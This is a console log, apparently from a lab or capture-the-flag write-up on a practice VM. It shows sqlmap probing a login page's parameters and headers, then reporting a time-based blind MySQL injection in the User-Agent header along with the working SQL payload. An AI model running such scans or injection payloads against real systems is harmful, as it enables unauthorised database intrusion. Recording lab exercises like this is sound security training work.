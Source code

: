 ```console
root@blinils:~/pinkyspalace-v1# sqlmap -u "http://127.0.0.1:8080/littlesecrets-main/login.php" --data="user=test&pass=test" --proxy=http://192.168.56.103:31337 --level=3 --risk=3

[16:00:16] [INFO] testing connection to the target URL
[16:00:16] [INFO] testing if the target URL content is stable
[16:00:16] [INFO] target URL content is stable
[16:00:16] [INFO] testing if POST parameter 'user' is dynamic
[16:00:16] [WARNING] POST parameter 'user' does not appear to be dynamic
[16:00:16] [WARNING] heuristic (basic) test shows that POST parameter 'user' might not be injectable
[16:00:16] [INFO] testing for SQL injection on POST parameter 'user'
--snip--
[16:00:16] [WARNING] POST parameter 'user' does not seem to be injectable
[16:00:16] [INFO] testing if POST parameter 'pass' is dynamic
[16:00:16] [WARNING] POST parameter 'pass' does not appear to be dynamic
[16:00:16] [WARNING] heuristic (basic) test shows that POST parameter 'pass' might not be injectable
[16:00:16] [INFO] testing for SQL injection on POST parameter 'pass'
--snip--
[16:00:16] [WARNING] POST parameter 'pass' does not seem to be injectable
[16:00:16] [INFO] testing if Referer parameter 'Referer' is dynamic
[16:00:16] [WARNING] Referer parameter 'Referer' does not appear to be dynamic
[16:00:16] [WARNING] heuristic (basic) test shows that Referer parameter 'Referer' might not be injectable
[16:00:16] [INFO] testing for SQL injection on Referer parameter 'Referer'
--snip--
[16:00:16] [WARNING] Referer parameter 'Referer' does not seem to be injectable
[16:00:16] [INFO] testing if User-Agent parameter 'User-Agent' is dynamic
[16:00:16] [WARNING] User-Agent parameter 'User-Agent' does not appear to be dynamic
[16:00:16] [WARNING] heuristic (basic) test shows that User-Agent parameter 'User-Agent' might not be injectable
--snip--
[16:00:16] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind'
[16:00:16] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind'
[16:00:16] [INFO] User-Agent parameter 'User-Agent' appears to be 'MySQL >= 5.0.12 OR time-based blind' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (3) value? [Y/n] Y
--snip--
[16:03:16] [INFO] checking if the injection point on User-Agent parameter 'User-Agent' is a false positive
User-Agent parameter 'User-Agent' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 12671 HTTP(s) requests:
---
Parameter: User-Agent (User-Agent)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: sqlmap/1.2.4#stable (http://sqlmap.org)' OR SLEEP(5) AND 'FzHk'='FzHk
---
[16:03:16] [INFO] the back-end DBMS is MySQL
web application technology: Nginx
back-end DBMS: MySQL >= 5.0.12
[16:03:16] [INFO] fetched data logged to text files under '/root/.sqlmap/output/127.0.0.1'
```
